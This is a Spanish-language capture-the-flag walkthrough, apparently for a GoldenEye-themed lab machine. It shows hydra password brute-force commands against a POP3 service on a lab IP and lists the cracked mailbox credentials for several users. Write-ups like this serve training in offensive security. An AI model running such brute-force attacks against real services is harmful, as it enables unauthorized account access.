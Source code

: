 

![[Pasted image 20251030191040.png]]

![[Pasted image 20251030191118.png]]

![[Pasted image 20251030191141.png]]


- Descargados los mensajes podemos enumerar nuevos usuarios quedando que 

*boris* : secret1!
*natalya* :
*alec*: alec@janus.boss : 
*xenia*: 


- Atacamos con fuerza bruta a los otros usuarios hasta conseguir credenciales:

```bash
hydra -l alec -P /usr/share/wordlists/fasttrack.txt pop3://10.201.71.25 -t 16 -s 55007
hydra -l natalya -P /usr/share/wordlists/fasttrack.txt pop3://10.201.71.25 -t 16 -s 55007
hydra -l xenia -P /usr/share/wordlists/fasttrack.txt pop3://10.201.71.25 -t 16 -s 55007
```


Encontramos las  credenciales de: 

*natalya* : bird

- Hallamos los mensajes de:

![[Pasted image 20251030192842.png]]

![[Pasted image 20251030192906.png]]

- Nueva Informacion 

*xenia* : RCP90rulez!

Domain: severnaya-station.com/gnocertdir

- Agregamos el dominio encontrado al etc/hosts : *severnaya-station.com*

-  Entrando en el panel de xenia vemos que en mensajes hay una conversacion con el usuario *doak* por lo que usamos fuerza bruta para saber su contraseña

```bash
hydra -l doak -P /usr/share/wordlists/rockyou.txt pop3://10.201.71.25 -t 16 -s 55007
```

*doak* : goat

- Entramos nuevamente al servicio pop3 y vemos las siguientes credenciales

![[Pasted image 20251030195109.png]]

username: dr_doak
password: 4England!
